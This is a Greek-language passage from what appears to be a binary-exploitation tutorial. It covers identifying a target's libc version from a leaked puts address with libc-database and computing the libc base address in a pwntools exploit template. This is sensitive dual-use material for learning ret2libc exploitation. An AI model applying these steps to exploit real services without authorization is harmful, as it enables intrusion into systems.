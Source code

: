 ### 3.2- Αναζητώντας την έκδοση libc (2)

Μπορείτε επίσης να κάνετε:

* `$ git clone https://github.com/niklasb/libc-database.git`
* `$ cd libc-database`
* `$ ./get`

Αυτό θα πάρει λίγο χρόνο, να είστε υπομονετικοί.\
Για να λειτουργήσει αυτό, χρειαζόμαστε:

* Όνομα συμβόλου libc: `puts`
* Διεύθυνση libc που έχει διαρρεύσει: `0x7ff629878690`

Μπορούμε να καταλάβουμε ποια **libc** είναι πιο πιθανό να χρησιμοποιείται.
```bash
./find puts 0x7ff629878690
ubuntu-xenial-amd64-libc6 (id libc6_2.23-0ubuntu10_amd64)
archive-glibc (id libc6_2.23-0ubuntu11_amd64)
```
Παίρνουμε 2 αντιστοιχίες (θα πρέπει να δοκιμάσετε τη δεύτερη αν η πρώτη δεν λειτουργεί). Κατεβάστε την πρώτη:
```bash
./download libc6_2.23-0ubuntu10_amd64
Getting libc6_2.23-0ubuntu10_amd64
-> Location: http://security.ubuntu.com/ubuntu/pool/main/g/glibc/libc6_2.23-0ubuntu10_amd64.deb
-> Downloading package
-> Extracting package
-> Package saved to libs/libc6_2.23-0ubuntu10_amd64
```
Αντιγράψτε τη libc από `libs/libc6_2.23-0ubuntu10_amd64/libc-2.23.so` στον κατάλογό μας εργασίας.

### 3.3- Άλλες συναρτήσεις για leak
```python
puts
printf
__libc_start_main
read
gets
```
## 4- Εύρεση της διεύθυνσης libc και εκμετάλλευση

Σε αυτό το σημείο θα πρέπει να γνωρίζουμε τη βιβλιοθήκη libc που χρησιμοποιείται. Καθώς εκμεταλλευόμαστε ένα τοπικό δυαδικό αρχείο, θα χρησιμοποιήσω απλώς: `/lib/x86_64-linux-gnu/libc.so.6`

Έτσι, στην αρχή του `template.py` αλλάξτε τη μεταβλητή **libc** σε: `libc = ELF("/lib/x86_64-linux-gnu/libc.so.6") #Ορίστε τη διαδρομή της βιβλιοθήκης όταν την γνωρίζετε`

Δίνοντας τη **διαδρομή** στη **βιβλιοθήκη libc**, το υπόλοιπο της **εκμετάλλευσης θα υπολογιστεί αυτόματα**.

Μέσα στη συνάρτηση `get_addr`, η **βάση διεύθυνση της libc** θα υπολογιστεί:
```python
if libc != "":
libc.address = leak - libc.symbols[func_name] #Save libc base
log.info("libc base @ %s" % hex(libc.address))
```
{% hint style="info" %}
Σημειώστε ότι **η τελική διεύθυνση βάσης της libc πρέπει να τελειώνει σε 00**. Αν αυτό δεν ισχύει για εσάς, μπορεί να έχετε διαρρεύσει μια λανθασμένη βιβλιοθήκη.
{% endhint %}
